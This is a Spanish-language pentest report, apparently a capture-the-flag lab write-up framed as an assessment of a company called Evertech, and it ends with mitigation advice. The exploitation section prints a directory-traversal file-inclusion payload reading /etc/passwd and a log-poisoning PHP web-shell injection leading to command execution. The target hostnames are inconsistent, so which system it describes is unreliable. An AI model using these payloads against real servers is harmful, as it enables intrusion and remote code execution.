

# Informe de Pentesting: Evertech

## 1. Introducción
Se llevó a cabo una evaluación de seguridad en la infraestructura de la empresa Evertech con el fin de identificar vulnerabilidades críticas que puedan comprometer la seguridad del sistema. Durante el análisis, se encontraron varios puntos de entrada explotables que podrían permitir acceso no autorizado a la red y sistemas internos. 

Este informe detalla cada etapa del proceso de pentesting, desde el reconocimiento hasta la explotación de vulnerabilidades, así como recomendaciones para mitigar los riesgos identificados.

---

## 2. Reconocimiento
Se realizó un escaneo inicial de la infraestructura utilizando **Nmap** para identificar puertos abiertos y servicios en ejecución:

```bash
nmap -F -T4  evertech.com
```
```bash
nmap -sV -F evertech.com
```


### 2.1 Resultados del escaneo:
- **Puerto 22 (SSH)**: Abierto, con OpenSSH en una versión potencialmente vulnerable.
- **Puerto 80 (HTTP)**: Abierto, con un servidor Apache desactualizado y configuraciones inseguras.

El análisis del puerto 80 reveló un servidor **httpd** con posibles fallos de seguridad, lo que sugiere la presencia de vulnerabilidades explotables en las aplicaciones web alojadas en él.

---

## 3. Enumeración de Subdominios y Directorios
La pagina tiene esta apariencia 


Se utilizó **Sublist3r** y **Gobuster** para descubrir subdominios y directorios ocultos:

```bash
sublist3r -d evertech.com
```

El análisis reveló el subdominio **mafialive.thm**, el cual pertenece a Evertech. Posteriormente, se realizó un escaneo de directorios con **Gobuster**:

```bash
gobuster dir -u http://mafialive.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Se encontraron los siguientes archivos y directorios expuestos:
- `/robots.txt`
- `/test.php`

El archivo `robots.txt` indicaba la presencia de rutas potencialmente sensibles.

---

## 4. Explotación de Vulnerabilidades

### 4.1 Local File Inclusion (LFI)
El archivo `test.php` permite la inclusión de archivos locales mediante el parámetro `view`. Se utilizó el siguiente payload para verificar la vulnerabilidad:


```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php
```

Esto confirmó que el parámetro `view` es vulnerable a LFI. Se intentó acceder a archivos sensibles en el sistema:

```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//etc/passwd
```

Este payload permitió obtener información sobre los usuarios del sistema, incluyendo posibles cuentas con privilegios elevados.

#### 4.1.1 Posibles explotaciones adicionales
- Acceso a claves SSH almacenadas en `/home/user/.ssh/id_rsa`.
- Extracción de configuraciones de bases de datos en `/var/www/html/config.php`.

### 4.2 Log Poisoning para ejecución remota de código (RCE)
Se detectó que el archivo de logs de Apache (`/var/log/apache2/access.log`) es accesible a través de LFI:

```bash
http://archangel/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
```


Esto permite realizar un ataque de **log poisoning**, inyectando código PHP en los registros de acceso del servidor.

#### 4.2.1 Ejemplo de inyección maliciosa:
Se realizó una petición maliciosa con un User-Agent modificado para insertar código PHP:

```bash
curl -A "<?php system(\$_GET['cmd']); ?>" http://mafialive.thm
```

Luego, al acceder al archivo de logs:

```bash
http://archangel/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=id
```

Se ejecutaron comandos en el servidor remoto con permisos del usuario web.

#### 4.2.2 Posibilidades de escalamiento
- Modificación de archivos críticos en el sistema.
- Creación de una shell web persistente.
- Elevación de privilegios explotando fallos en binarios SUID.

---

## 5. Análisis del Servidor
Durante el pentesting se identificaron vulnerabilidades adicionales en la infraestructura del servidor:

- **Ubuntu desactualizado**, con fallos de seguridad conocidos.
- **Kernel de Linux vulnerable**, permitiendo potenciales ataques de escalamiento de privilegios.
- **Sudo en versión antigua**, lo que podría permitir ataques de abuso de permisos.
- **Servicios en ejecución sin restricciones adecuadas**, lo que aumenta la superficie de ataque.


---

## 6. Recomendaciones y Mitigación
Las vulnerabilidades encontradas representan un riesgo crítico para la seguridad de Evertech. Se recomienda:

1. **Actualizar el sistema operativo y servicios**
   - Aplicar parches de seguridad a Ubuntu y el kernel de Linux.
   - Actualizar OpenSSH y Apache a versiones seguras.

2. **Configurar correctamente Apache**
   - Deshabilitar listados de directorios y acceso a archivos sensibles.
   - Implementar reglas en `.htaccess` para restringir el acceso.

3. **Validar y sanitizar entradas en test.php**
   - Implementar controles en PHP para evitar vulnerabilidades de LFI.
   - Utilizar `allowlist` en lugar de permitir entradas arbitrarias en parámetros GET.

4. **Restringir acceso a logs de Apache**
   - Configurar permisos adecuados en `/var/log/apache2/access.log`.
   - Utilizar técnicas de rotación de logs para evitar exposición.

5. **Monitoreo y detección de actividad sospechosa**
   - Implementar herramientas de monitoreo como Fail2Ban para bloquear intentos de acceso no autorizados.
   - Revisar periódicamente los registros de acceso y errores.

La explotación de estas vulnerabilidades podría permitir a un atacante obtener acceso total al sistema, comprometiendo la integridad y confidencialidad de la infraestructura de Evertech. Es fundamental aplicar las medidas de mitigación recomendadas para fortalecer la seguridad de la empresa y prevenir ataques futuros.


